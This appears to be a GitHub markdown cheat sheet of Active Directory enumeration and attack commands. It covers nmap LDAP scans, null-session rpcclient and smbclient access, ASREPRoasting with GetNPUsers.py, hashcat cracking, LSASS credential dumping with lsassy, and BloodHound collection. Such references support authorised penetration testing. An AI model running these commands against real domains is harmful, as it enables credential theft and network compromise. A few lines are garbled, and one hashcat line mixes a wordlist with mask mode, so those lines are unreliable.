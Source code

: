 # Active Directory Enumeration Syntax

## Tools

``
nmap
ldapsearch 
smbclient
GetNPUsers.py
lsassy
Bloodhound
bloodhound-python
rpcclient
``
## Recon

### nmap 

Scan for ldap enum

``
nmap -sV -sC -Pn --open IP -p- --script ldap-rootdse
``

### rpcclient

``
rpcclient IP -U%
``
fpr nukk Auth

to get Users

``
enumdomusers
``

### Ldapsearch

``
ldapsearch -h IP -p port/389 -x -b "dc=domain,dc=domain"
``

### SmbClient

To see and interact with all the smb shares 

``
smbclient -L \\\\IP\\
``

``
smbclient -L \\\\IP\\share\ -U ""%""
``

### GetNPUsers.py

For ASREPRoast

``
GetNPUsers.py domain/user -dc-ip IP -no-pass
``

``
GetNPUsers.py domain/ -usersfile file  -dc-ip IP -no-pass
``
To crack the hash using 

``
hashcat -m 18200 hashfile -a 3
``

``
hashcat -m 18200 hashfile wordlist  -a 3
``
### Lsassy
lsd

``
lsassy -m 0 -d domain.com -u username -p password ip
``
## Post-Exploitation

### BloodHound

Use bloodhound-python to get the JSON file with all data using below syntax 

``
Bloodhound-python -d domain.xxxxx -u User -p password -gc hostname.xx.xxxx -c all -ns ip
``
open the JSON file using BloodHound GUI and get the shortest path towards your target 

